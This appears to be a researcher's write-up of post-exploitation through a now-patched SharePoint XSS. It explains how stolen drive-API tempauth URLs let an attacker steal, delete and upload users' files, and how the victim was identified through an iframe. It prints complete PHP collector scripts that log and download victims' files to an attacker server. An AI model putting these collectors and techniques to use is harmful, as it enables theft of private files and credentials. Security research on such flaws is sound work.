 # SharePoint JavaScript/API Investigation

- All the information provided on this site is for educational purposes only.
- The site or the authors are not responsible for any misuse of the information.
- You shall not misuse the information to gain unauthorized access and/or write malicious programs.
- The information shall only be used to expand knowledge and not for causing malicious or damaging attacks.

## The beginning
Due to discovery of XSS in SharePoint on-premise and their hosted solutions, I was asked to see what could be done with the XSS. I hosted a few JavaScript files during the investigation since I was able to inject a script tag and use the src attribute to link to the hosted files.

I also was able to use a version of SharePoint that had the aspx file rendering and I was able to use that to create files with embedded payloads and made the files look like they belonged in SharePoint.

What was I able to do if a user accessed the XSS:
- Steal any user's files (hidden,private,public)
- Delete any user's files
- Upload any file to the user's sharepoint drive
- Anything else the API allowed us to do

The interactions happened against the drive API and also could be done using graphql.

## How could you steal file?
Well, the drive API creates a JSON object with URLs that have an authorization token. By stealing that URL for each file, it was easy to just access it.

For the listing of all of a user's files, it was simple enough to just call out to the user's drive API (depends on API version):
- var t = "/_api/v2.1/drive/items/root";
- var t = "/_api/v2.0/drive/items/root/children";

There are just enough changes in version 2.0 to 2.1 of the drive API to have to write separate scripts.

The API provided us with a url with the tempauth parameter that allows anyone with that URL access the item for a decent amount of time.
```
https://REDACTED-my.sharepoint.com/personal/REDACTED/_layouts/15/download.aspx?UniqueId=REDACTED&Translate=false&tempauth=<<<<TOKEN!!!>>>>&ApiVersion=2.1
```

I also used a not so elegant version of the stealing of the token. It basically would show up as an image (`/tiny.png?steal_bs=`) access with a querystring stored in access.log. Then I decided it may be more useful to use a file such as spimage.php.

### What is in spimage.php?

```
<?php
header("Access-Control-Allow-Origin: *");
header("Access-Control-Allow-Headers: *");
header("Access-Control-Allow-Methods: *");
header('Content-Type: image/png');

$url = $_GET["auth_url"];
$file_name = $_GET["name"];
if(isset($_GET['auth_url']) && !empty($_GET['name']))
{
	$data = "<p><a href='".base64_decode($url)."'>".$file_name."</a></p>\r\n";
	file_put_contents('./REDACTED/xfil.html', $data , FILE_APPEND);
}
echo file_get_contents('http://REDACTED/tiny.png');
?>

```

### What is in sp_exfil.php
Well it is less elegant than the above...I don't like this one, but it is referrenced in the JavaScript.

```
<?php
header("Access-Control-Allow-Origin: *");
header("Access-Control-Allow-Headers: *");
header("Access-Control-Allow-Methods: *");
header('Content-Type: application/json');

$data = json_decode(file_get_contents('php://input'), true);
$url = $data["auth_url"];
$file_name = $data["name"];
echo './REDACTED/'.$file_name;
file_put_contents('./REDACTED/'.$file_name, file_get_contents($url));  
?>

```

## Upload and Delete
The Upload and Delete required obtaining tokens from another requests This can be seen in the following function calls of delete_files.js
- stealBearer
- getDigest

In the Upload I obtained the token in a slightly different way:
- getDigest

## Who is our victim?
The victim is anyone who accesses the XSS or pages (if you are able to use aspx). 

I did not have a lot of time to look into discovering who the victim would be, so I had to come up with a quick and dirty way of identifying them for requests needing their username:
```
document.write("<iframe src='/' id='whoareu' border=0 width=1 height=1></iframe>");const myTimeout = setTimeout(whoareu, 2000);
function whoareu() {
	var theurl=document.getElementById('whoareu').contentWindow.location.href;
	user = new URL(theurl).pathname.split('/')[2];
	// REST OF FUNCTION REMOVED AS NOT NECESSARY
}
```
In the above, I needed an iframe to hit the root of the SharePoint instance and it would redirect the user to their directory. Then I could parse the information out to be used for the Upload and Delete functions.

## What happened?
Well, the XSS was patched earlier this year and my other XSS findings in the past have been patched. Depending on deployment, you may be able to just create aspx files to embed your payloads. However, there are always 3rd party components that have plenty of bugs.

My favorite part while working on this was when it executed against someone I was testing with. I was able to download their keepass file that was only accessible to them.

